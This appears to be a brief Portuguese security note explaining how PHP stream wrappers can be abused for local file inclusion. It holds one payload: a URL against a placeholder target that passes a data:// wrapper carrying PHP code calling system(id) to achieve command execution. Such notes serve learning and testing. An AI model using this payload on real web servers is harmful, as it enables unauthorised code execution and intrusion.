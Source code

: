 # PHP Wrapper
Wrapper são streams em PHP que dizem como determinado protocolo dese ser utilizado e gerenciado.  
Através dos wrappers é possível manipular as requisições afim de descobrir arquivos locais do servidor (LFI).

`http://www.alvo.com.br/index.php?p=data://text/plan,%3C?php system(id);?%3E`